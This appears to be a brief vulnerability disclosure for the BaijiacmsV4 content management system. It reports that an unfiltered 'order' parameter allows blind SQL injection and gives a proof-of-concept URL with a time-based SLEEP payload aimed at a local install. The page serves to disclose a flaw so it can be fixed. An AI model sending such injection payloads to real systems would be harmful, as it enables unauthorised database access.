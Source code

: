 # Baijiacms officials link

baijiacms: https://github.com/baijiacms/baijiacmsV4

# Why make this

BaijiacmsV4 does not open the issue,I can't feedback any issue,it's only possible to write up vulnerability here.

There is no filtering on parameter "order"，resulting in a vulnerability of blind sql injection,attackers can fetch data in databases easily，the vulnerability is so harmful.

# Poc

http://localhost/baijiacmsV4-master/index.php?act=index&beid=1&by=&cate=&do=goods&isdiscount=&ishot=&isnew=&isrecommand=&issendfree=&istime=&keywords=&m=eshop&merchid=&mod=mobile&op=get_list&order=(SELECT * FROM (SELECT(SLEEP(5))))
